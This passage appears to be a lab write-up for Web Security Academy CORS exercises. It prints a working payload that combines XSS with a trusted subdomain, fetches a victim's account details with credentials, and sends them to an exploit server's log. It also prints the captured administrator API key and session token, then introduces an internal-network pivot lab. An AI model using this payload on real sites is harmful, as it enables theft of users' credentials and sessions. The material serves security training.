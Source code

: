 ```
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

Response:

HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "Co4v7XetDCHZp2RtQB8P5CGBlZgkoGWF",
  "sessions": [
    "e8TRJ1v84JhKHPm31lkovNNOgPKz8UNf"
  ]
}
```

**Added to Request Header:**

`Origin: http://subdomain.ac851f671e93b3f7c075afe800410040.web-security-academy.net/`

**In response:**

`Access-Control-Allow-Origin: http://subdomain.ac851f671e93b3f7c075afe800410040.web-security-academy.net/`

**Exploit Server ->**

```
Body:

   <script>
      document.location="http://stock.ac851f671e93b3f7c075afe800410040.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac851f671e93b3f7c075afe800410040.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-ac6d1f791ea0b359c076afec01970006.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
   </script>
```

`GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22mWZcerNdn5oWnL04a3gG6wq9r83y2QCz%22,%20%20%22sessions%22:%20[%20%20%20%20%22j9p7rDfdqMwzj8phmOIcLwJHVu02Xl6s%22%20%20]} HTTP/1.1`

### Lab: CORS vulnerability with internal network pivot attack

This website has an insecure CORS configuration in that it trusts all internal network origins.

This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user.

